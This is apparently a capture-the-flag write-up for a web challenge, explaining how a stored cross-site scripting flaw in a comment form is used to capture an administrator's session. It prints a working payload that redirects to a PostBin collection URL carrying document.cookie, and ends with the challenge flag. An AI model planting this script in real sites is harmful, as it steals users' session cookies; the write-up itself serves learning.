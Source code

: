 # Government Agriculture Network
## Observing the webpage
```
https://govagriculture.web.ctfcompetition.com/
```
We were given this webpage and by playing around with it, we see some attributes.
* When we press comment, it makes a POST request and sends the raw data we type
* The comment box redirects to a page and prompts us with *our post was submitted for review. Administator will take a look shortly.*  

This is a hint of XSS(Cross Site Scripting), as we were implied that the Admin will take a look(click). In this case, we want to put some code into the text box and somehow record the session when the admin clicked.  
We could setup a simple webserver and put that as an href attribute and gather the data(eg. cokies) on our side.  
## Set up XSS
Although we could setup our server for the Admin to "click" onto, we don't really want to expose our machine and do all that port forwarding stuff. Thankfully, [PostBin](https://postb.in/)could help us do the job.
### PostBin Setup
We could navigate to [PostBin](https://postb.in/) then create a new bin. We will copy donw the adress and preform an XSS attack.
```html
<script>
location.href="https://postb.in/1590382008906-4863273410592?e="+document.cookie;
</script>
```
I didn't get the cookies first try, instead I tried to send over document.html and document.all.  
The data after the question mark would be sent to our bin which we could view a few seconds after we submit the post.
## Get the flag
```
CTF{8aaa2f34b392b415601804c2f5f0f24e}
```
